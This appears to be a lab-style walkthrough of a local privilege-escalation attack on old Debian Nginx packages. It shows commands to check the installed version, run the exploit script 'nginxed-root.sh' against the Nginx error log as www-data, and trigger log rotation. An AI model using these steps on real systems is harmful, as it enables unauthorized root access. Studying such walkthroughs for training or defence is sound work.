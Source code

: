 #### Detection
**Victim's Machine**
Finding the Nginx version:
```
dpkg -l | grep nginx
```

Note: Installed Nginx version is below 1.6.2-5+deb8u3.

#### Exploitation
**Attacker's Machine**
**Terminal 1**
For this exploit, it is required that the user be `www-data`. 
```
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
```

- `nginxed-root.sh`: This is the exploit script.
- `/var/log/nginx/error.log`: Path to Nginx's error log file, which is being used as part of the exploit.

At this stage, the system waits for `logrotate` to execute. Nginx typically uses `logrotate` to rotate logs (renaming old logs and starting new ones).

**Terminal 2**
Manually trigger Log Rotation.
```
invoke-rc.d nginx >/dev/null 2>&1
```

- `>/dev/null 2>&1`: This redirects both ***standard output*** and ***standard error*** to `/dev/null`.
